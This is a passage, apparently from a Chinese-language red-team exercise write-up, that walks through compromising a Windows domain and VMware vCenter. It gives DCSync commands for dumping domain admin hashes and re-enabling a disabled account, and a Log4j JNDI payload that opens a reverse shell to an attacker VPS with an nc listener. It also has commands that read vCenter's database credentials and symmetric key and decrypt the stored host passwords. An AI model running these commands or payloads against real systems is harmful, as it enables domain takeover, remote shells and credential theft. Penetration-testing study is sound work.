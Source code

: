 接着可以通过该机器是否开放53和389端口进行进一步确认

这次攻防演练的其中一个目标，通过密码复用爆破成功的某台机器里，刚好存在着域管进程，提权到system权限后注入到域管进程，通过Dcsync成功获取域管密码的hash值，其中一个被禁用的账户刚好可以通过cmd5解出，解出明文密码并激活账户，成功登录两台域控机器，除此以外还可以尝试域漏洞、NTLM中继等

```php
net group "domain admins" /domain  
dcsync domain xxxx  
shell net user xxxx  
shell net user xxxx /active:yes /domain
```

![image_CbIuSx-DB0.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-c0096a4afab6b715219b72d969afe3de662a6a94.png)

![image_lKpb0bidqu.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-2e150642d27ae6cbd34f40b4acc38cd880ba71d4.png)

### Vcenter

在扫描的过程中发现几台Vcenter，Vcenter常规有三种打法，分别是

CVE-2021-22005-rce、CVE-2021-21972-rce和log4j

前两个测试没成功，log4j通过dnslog探测漏洞存在，vcenter的漏洞触发点在xff头部

```php
java -jar JNDIExploit-1.3-SNAPSHOT.jar -l 1389 -p 8889 -i 0.0.0.0  
nc -lvp 9000  
${jndi:ldap://VPSIP:1389/Deserialization/CommonsBeanutils1/ReverseShell/VPSIP/9000}
```

![4s6zq8tgso_dj3CuwYEQo.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-be59b369b6b65a03e173ca10dd9b5422d101bafb.png)

![styrmfmfl2_AgaGTkpKg8.png](https://shs3.b.qianxin.com/attack_forum/2022/07/attach-2da058a2d843307b767c998a4f3ab3d8ac90f545.png)

但一般打完是非交互式shell，没有回显，这里使用命令切换为交互式shell

`python -c 'import pty;pty.spawn('/bin/bash')'`

重置密码

`/usr/lib/vmware-vmdir/bin/vdcadmintool`

**不重置密码获取密码**

[https://github.com/shmilylty/vhost\_password\_decrypt](https://github.com/shmilylty/vhost_password_decrypt "https://github.com/shmilylty/vhost_password_decrypt")

```php
#获取vc用户的密码  
cat /etc/vmware-vpx/vcdb.properties  
​  
#把加密后的密码单独拿出来，  
psql -h 127.0.0.1 -p 5432 -U vc -d VCDB -c "select ip\_address,user\_name,password from vpx\_host;" > password.enc  
#改成这种格式\*  
H8BBiGe3kQqaujz3ptZvzhWXXZ0M6QOoOFIKL0p0cUDkWF/iMwikwt7BCrfEDRnXCqxoju4t2fsRV3xNMg==\*  
zR20RvimwMPHz7U6LJW+GnmLod9pdHpdhIFO+Ooqk0/pn2NGDuKRae+ysy3rxBdwepRzNLdq6+paOgi54Q==\*  
Q81OIBXziWr0orka0j++PKMSgw6f7kC0lCmITzSlbl/jCDTuRSs07oQnNFpSCC6IhZoPPto5ix0SccQPDw==\*  
R6HqZzojKrFeshDIP8vXPMhN28mLDHiEEBSXWYXNHrQQvHcuLOFlLquI2oLRfqLiPlHwkmAxUj9hKj3VZA==  
​  
#拿解密key  
cat /etc/vmware-vpx/ssl/symkey.dat  
Windows：C:\\ProgramData\\VMware\\vCenterServer\\cfg\\vmware-vpx\\ssl\\symkey.dat  
Linux：/etc/vmware-vpx/ssl/symkey.dat  
​  
#破解  
python decrypt.py symkey.dat password.enc pass.txt
```
